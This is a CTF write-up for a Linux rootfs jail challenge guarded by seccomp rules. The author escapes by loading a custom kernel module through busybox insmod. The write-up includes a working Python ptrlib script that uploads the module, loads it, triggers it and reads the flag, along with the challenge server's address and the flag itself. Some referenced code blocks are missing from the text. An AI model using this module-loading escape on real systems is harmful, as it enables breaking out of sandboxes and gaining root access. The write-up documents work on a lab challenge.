

In the zip file given, there is a linux kernel image, an executable, a C program source code, a CPIO rootfs file, and a run script.

The run script itself looks like a regular qemu run command, but I prepended `#!/bin/sh` to it so I can execute it properly.


Decompressing the CPIO rootfs reveals a linux root directory, with an unusual folder named 'penjara' containing `busybox` and `sh` binaries, which can be used to solve the challenge.
The flag seems to be located at `/root/flag.txt`.
Obviously, I can see that this is going to be one of those rootfs jail challenges.

`main.c` clarifies this, the program basically adds seccomp rules to block the commands that can be used/abused to escape the rootfs jail. I assume `main` is invoked on init. 
I thought this challenge is going to be impossible. But, however...
```
# busybox
BusyBox v1.35.0 (2023-12-25 17:04:41 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --show SCRIPT
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as.

Currently defined functions:
	[, [[, addgroup, adduser, ar, arch, arp, arping, ascii, ash, awk,
	base32, base64, basename, bc, blkid, bunzip2, bzcat, cat, chattr,
	chgrp, chmod, chown, chroot, chrt, chvt, cksum, clear, cmp, cp, cpio,
	crc32, crond, crontab, cttyhack, cut, date, dc, dd, deallocvt,
	delgroup, deluser, devmem, df, diff, dirname, dmesg, dnsd,
	dnsdomainname, dos2unix, du, dumpkmap, echo, egrep, eject, env,
	ether-wake, expr, factor, fallocate, false, fbset, fdflush, fdformat,
	fdisk, fgrep, find, flock, fold, free, freeramdisk, fsck, fsfreeze,
	fstrim, fuser, getopt, getty, grep, gunzip, gzip, halt, hdparm, head,
	hexdump, hexedit, hostid, hostname, hwclock, i2cdetect, i2cdump,
	i2cget, i2cset, i2ctransfer, id, ifconfig, ifdown, ifup, inetd, init,
	insmod, install, ip, ipaddr, ipcrm, ipcs, iplink, ipneigh, iproute,
	iprule, iptunnel, kill, killall, killall5, klogd, last, less, link,
	linux32, linux64, linuxrc, ln, loadfont, loadkmap, logger, login,
	logname, losetup, ls, lsattr, lsmod, lsof, lspci, lsscsi, lsusb, lzcat,
	lzma, lzopcat, makedevs, md5sum, mdev, mesg, microcom, mim, mkdir,
	mkdosfs, mke2fs, mkfifo, mknod, mkpasswd, mkswap, mktemp, modprobe,
	more, mount, mountpoint, mt, mv, nameif, netstat, nice, nl, nohup,
	nologin, nproc, nslookup, nuke, od, openvt, partprobe, passwd, paste,
	patch, pidof, ping, pipe_progress, pivot_root, poweroff, printenv,
	printf, ps, pwd, rdate, readlink, readprofile, realpath, reboot,
	renice, reset, resize, resume, rm, rmdir, rmmod, route, run-init,
	run-parts, runlevel, sed, seq, setarch, setconsole, setfattr,
	setkeycodes, setlogcons, setpriv, setserial, setsid, setuidgid, sh,
	sha1sum, sha256sum, sha3sum, sha512sum, shred, sleep, sort,
	start-stop-daemon, strings, stty, su, sulogin, svc, svok, swapoff,
	swapon, switch_root, sync, sysctl, syslogd, tail, tar, tc, tee, telnet,
	test, tftp, time, top, touch, tr, traceroute, true, truncate, ts, tty,
	ubirename, udhcpc, uevent, umount, uname, uniq, unix2dos, unlink,
	unlzma, unlzop, unxz, unzip, uptime, usleep, uudecode, uuencode,
	vconfig, vi, vlock, w, watch, watchdog, wc, wget, which, who, whoami,
	xargs, xxd, xz, xzcat, yes, zcat
```
`insmod` and `modprobe`, which are available as busybox functions, aren't explicitly blocked in the seccomp rules. I can use this to load kernel modules. 
After some digging, I found this: https://github.com/SECCON/SECCON2022_final_CTF/tree/main/jeopardy/pwnable/babyescape/solver/driver. I can modify the driver source code to something like this:


The running kernel version is `linux 6.16.0`, so I can just download the source code, compile it, and build the kernel module for that version of the linux kernel specifically.

After that, I can just run this script in the directory that contains the `run.sh` script, making sure that the compiled kernel driver, `pwn.ko` exists in the same directory:
```
import base64
import time
from ptrlib import *

def run(cmd):
    sock.sendlineafter("# ", cmd)

kernel = base64.b64encode(
    open("pwn.ko", "rb").read()
).decode()

sock = Process("./run.sh", cwd=".")

# Create kernel driver
for block in chunks(kernel, 1000):
    run(f'echo "{block}" >> b64')
run("busybox base64 -d b64 > pwn.ko")
run("busybox rm b64")

# Install kernel module
run("busybox insmod pwn.ko")
run("busybox mknod modpwn c 60 1")

# Invoke exploit
run("busybox cat modpwn")

# Get flag
time.sleep(1)
run("busybox cat /flag.txt")

# Drain and print all buffered output
while True:
    try:
        data = sock.recv(timeout=0.2)  # try to read with small timeout
        if not data:
            break
        print(data.decode(errors="ignore"), end="")
    except TimeoutError:
        break

# Then attach to interactive shell
sock.sh()
```

Yep, it works. Now I can use it on the remote server, using `sock = Socket("18.143.31.243", 9008)`
But since the connection was very bad at the time the competition was going and the machine didn't reset (someone also left their payload kek), I just did this:

That's it. lol. The flag is: `GEMASTIK18{ingfokan_pemabaran_roblox_muncak_gunung}`
~~nevermind, pwn.ko is and has always been in the remote root dir, not fun.~~